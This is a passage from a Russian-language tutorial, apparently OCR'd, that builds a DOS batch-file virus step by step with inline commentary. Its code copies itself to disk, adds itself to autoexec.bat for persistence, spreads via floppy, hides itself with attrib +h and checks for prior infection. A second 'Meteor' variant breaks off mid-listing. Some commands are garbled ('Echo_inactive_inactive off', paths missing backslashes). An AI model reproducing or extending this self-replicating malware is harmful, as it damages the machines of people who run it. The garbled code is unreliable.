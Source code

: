 [SRC]
Echo_inactive_inactive off {запрещаем вывод на экран исполняемых команд}
copy %0 c:virus.bat >nul {копируем файл; запрещаем вывод на экран самой команды и результата её действия}
echo c:virus.bat>>c:autoexec.bat {добавляем текст в уже существующий файл}
[/SRC]
Вот и все! Проще не бывает! Это пример одного из самых простых bat-вирусов. Хотя с полной уверенностью сказать, что это вирус, значит сказать что заяц ученый. Посмотрите на то, что написано в скобках и вы поймете, что это просто пример того, как сделать основу вируса. Продолжаю:
[SRC]
Echo_inactive_inactive off
copy %0 c:virus.bat >nul
echo c:virus.bat>>c:autoexec.bat
copy %0 a:run.bat >nul {копируем этот файл на дискету, если таковая имеется в дисководе (копирование произойдет при перезагрузке компа)}
[/SRC]

Таким образом к предыдущему исходнику я добавил одну строку и вирус приобрел новую способность: он теперь умеет заражать другие компы через дискету.
[SRC]
Echo_inactive_inactive off
copy %0 c:virus.bat >nul
attrib +h c:virus.bat >nul {устанавливаем файлу virus.bat атрибут «скрытый» (файл virus.bat наверняка попадется человеку на глаза и будет их мозолить , поэтому делаем его скрытым)}
echo c:virus.bat>>c:autoexec.bat
copy %0 a:run.bat >nul
[/SRC]
Вот, наш исходник начинает приобретать очертания вируса!
[SRC]
Echo_inactive_inactive off
if exist c:virus.bat goto ski {проверяем, существует ли файл, …}
copy %0 c:virus.bat >nul
attrib +h c:virus.bat >nul
echo c:virus.bat>>c:autoexec.bat
:ski {…если он существует, то программа переходит на метку :ski}
copy %0 a:run.bat >nul
[/SRC]
Добавил еще одну команду «if exist». Теперь вирус уже будет проверять, есть ли этот файл, и если он есть, то уже не будут выполняться лишние команды. Только скопирует себя на дискету и все.
Теперь модернизируем наш вирус до конца.
[SRC]
Echo_inactive_inactive off%[Meteor]% {выводим на экран текст «Meteor»}

if '%1=='In_ goto Meteo {если переменная %1 равна In, то переходим к метке «:Meteo»}

if exist c:Meteor.bat goto Mete {проверяем, существует ли файл Meteor.bat, если да, то переходим к метке «:Mete»}

if not exist %0 goto Met {если файл не существует, то переходим к метке «Met»}

find "Meteor"c:Meteor.bat {проверяем, есть ли файл meteor на диске, если нет, то копируем его туда}

attrib +h c:Meteor.bat {делаем файл скрытым}

